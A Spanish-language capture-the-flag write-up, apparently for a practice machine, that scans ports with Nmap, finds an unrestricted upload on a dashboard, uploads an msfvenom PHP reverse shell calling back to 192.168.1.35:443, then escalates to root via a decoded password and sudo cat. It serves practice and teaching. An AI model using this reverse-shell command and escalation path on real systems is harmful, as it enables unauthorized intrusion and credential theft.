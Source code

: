 Escaneo de puertos con Nmap:
```
nmap -p- -sC -sV -sS --min-rate 5000 -n -vvv -Pn 172.17.0.2 -oN escaneo
```

![](../../../Images/Pasted%20image%2020250128185425.png)

Observo lo que corre por el puerto 80:

![](../../../Images/Pasted%20image%2020250128185557.png)

No encontré nada relevante

Pero en la página web me reiteran el dominio hackzones.hl, accedo a él:

![](../../../Images/Pasted%20image%2020250128190500.png)

Tengo un panel de Login

Haré fuzzing web con Gobuster para encontrar posibles directorios:

![](../../../Images/Pasted%20image%2020250128191059.png)

Me llama la atención el directorio /dashboard.html

Accedo a él:

![](../../../Images/Pasted%20image%2020250128191136.png)

Cuando doy click en el botón de "Admin" me doy cuenta que tengo una subida de archivos

![](../../../Images/Pasted%20image%2020250128191204.png)

Crearé una Reverse Shell con Msfvenom y la subiré:
```
msfvenom -p php/reverse_php LHOST=192.168.1.35 LPORT=443 -o shell.php
```

![](../../../Images/Pasted%20image%2020250128191250.png)

Recordando, tengo un directorio /uploads, veré si allí se subió mi archivo:

![](../../../Images/Pasted%20image%2020250128191338.png)

Y si, efectivamente está allí

Me pongo a la escucha con Netcat por el puerto 443 y doy click en mi archivo:

![](../../../Images/Pasted%20image%2020250128191418.png)

Y estoy dentro de la máquina

Tratamiento de la TTY:

![](../../../Images/Pasted%20image%2020250128191642.png)

![](../../../Images/Pasted%20image%2020250128191704.png)

## ESCALADA DE PRIVILEGIOS

En la ruta /var/www/html/supermegaultrasecretfolder, me encuentro con un .sh, lo leo:

![](../../../Images/Pasted%20image%2020250128192825.png)

Es un código codificado en hexadecimal

Lo decodifico:

![](../../../Images/Pasted%20image%2020250128192853.png)

Es una posible contraseña

Observo los usuarios que contiene esta máquina para ver a cual puede pertenecer esta contraseña:

![](../../../Images/Pasted%20image%2020250128193005.png)

Intento escalar al usuario mrrobot:

![](../../../Images/Pasted%20image%2020250128193030.png)

Ahora soy el usuario mrrobot

Flag de user:

![](../../../Images/Pasted%20image%2020250128193105.png)

Ejecuto sudo -l para ver el binario que puedo usar

![](../../../Images/Pasted%20image%2020250128193136.png)

Puedo ser root con el binario Cat

Miro en GTFOBins como puedo escalar con este binario:

![](../../../Images/Pasted%20image%2020250128193203.png)

Lo ejecuto, leyendo el archivo /opt/SistemUpdate:

![](../../../Images/Pasted%20image%2020250128193422.png)

Me encuentro con las credenciales de root

Escalo a root

![](../../../Images/Pasted%20image%2020250128193442.png)

Y listo, ya soy ROOT

Flag de root:

![](../../../Images/Pasted%20image%2020250128193658.png)
